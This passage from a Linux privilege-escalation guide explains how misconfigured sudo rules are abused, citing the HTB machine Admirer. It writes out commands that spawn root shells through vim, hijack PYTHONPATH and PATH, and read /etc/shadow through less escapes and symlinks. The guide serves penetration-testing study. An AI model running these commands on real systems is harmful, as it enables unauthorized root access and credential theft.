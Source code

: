 In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

```
sudo vim -c '!sh'
```

### SETENV

This directive allows the user to set an environment variable while executing something:

```
$ sudo -l
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

This example, based on HTB machine Admirer, was vulnerable to PYTHONPATH hijacking to load an arbitrary python library while executing the script as root:

```
sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
```

### Sudo execution bypassing paths

Jump to read other files or use symlinks. For example in sudoers file: hacker10 ALL= (root) /bin/less /var/log/*

```
sudo less /var/logs/anything
less>:e /etc/shadow #Jump to read other files using privileged less
```

```
ln /etc/shadow /var/log/new
sudo less /var/log/new #Use symlinks to read any file
```

If a wildcard is used (*), it is even easier:

```
sudo less /var/log/../../etc/shadow #Read shadow
sudo less /var/log/something /etc/shadow #Red 2 files
```

Countermeasures: 

### Sudo command/SUID binary without command path

If the sudo permission is given to a single command without specifying the path: hacker10 ALL= (root) less you can exploit it by changing the PATH variable

```
export PATH=/tmp:$PATH
#Put your backdoor in /tmp and name it "less"
sudo less
```
